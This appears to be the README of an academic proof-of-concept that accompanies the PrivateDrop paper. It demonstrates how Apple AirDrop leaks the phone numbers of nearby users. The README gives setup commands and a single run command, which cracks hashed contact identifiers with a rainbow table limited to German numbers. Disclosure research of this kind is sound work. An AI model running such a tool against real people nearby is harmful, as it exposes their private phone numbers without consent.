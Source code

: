 # PoC: AirDrop Phone Number Leak

This PoCs demonstrates the contact identifier leakage in Apple AirDrop that was described in

* Alexander Heinrich, Matthias Hollick, Thomas Schneider, Milan Stute, and Christian Weinert. **PrivateDrop: Practical Privacy-Preserving Authentication for Apple AirDrop** in _30th USENIX Security Symposium_. [Website](https://privatedrop.github.io). [Preprint](https://www.usenix.org/system/files/sec21fall-heinrich.pdf).

**Note:** We configured the used rainbow table to only work with German mobile phone numbers (prefix: +49). Other tables, e.g., containing all international phone numbers, can be generated with [_RainbowPhones_](https://github.com/contact-discovery/rt_phone_numbers)'s `rtgen`.

## Installation

Run the following instructions on a Mac (tested with macOS 11.2.3).

1. Checkout the repository.

```bash
git clone https://github.com/seemoo-lab/opendrop.git
cd opendrop
git checkout poc-phonenumber-leak
git submodules update --init
```

2. Install Python dependencies.

```bash
pip3 install -r requirements.txt
```

3. Build [_RainbowPhones_](https://github.com/contact-discovery/rt_phone_numbers).

```bash
brew install libomp
cd rt_phone_numbers
make -f Makefile.macOS
cd ..
```

## Usage

Simply run the following and wait for someone in proximity to open the AirDrop sharing menu.

```bash
python3 -m opendrop receive
```

An example output would look like this:

```
Announcing service: host opendrop, address fe80::c8b9:fbff:fee9:d544, port 8771
Starting HTTPS server
Nearby phone number: +49<...>
```
